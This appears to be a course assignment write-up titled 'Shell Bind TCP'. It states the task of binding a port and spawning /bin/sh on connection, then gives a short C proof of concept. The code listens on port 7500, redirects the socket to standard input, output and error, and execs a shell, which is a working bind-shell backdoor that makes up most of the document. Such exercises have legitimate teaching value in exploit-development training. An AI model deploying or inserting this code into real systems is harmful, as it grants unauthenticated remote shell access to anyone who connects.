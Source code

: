 Assignment #1: Shell Bind TCP
=============================

Instructions:
-------------
* Bind to a port
* Exec /bin/sh on incoming connection
* Port number should be easily configurable

PoC:
----
```int main(void){
	int fd, newfd;
	struct sockaddr_in server_addr, client_addr;

	server_addr.sin_family = AF_INET;
	server_addr.sin_port = htons(7500);
	server_addr.sin_addr.s_addr = htonl(INADDR_ANY);
	
	//socket
	fd = socket(AF_INET, SOCK_STREAM, 0);
	
	//bind
	bind(fd, (struct sockaddr *) &server_addr, 16);
	
	//listen
	listen(fd, 1);
	
	//accept
	newfd = accept(fd, NULL, NULL);
	
	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
	dup2(newfd, 0);
	dup2(newfd, 1);
	dup2(newfd, 2);
	
	//execve /bin/sh
	execve("/bin/sh", NULL, NULL);
	
	return 0;
}```
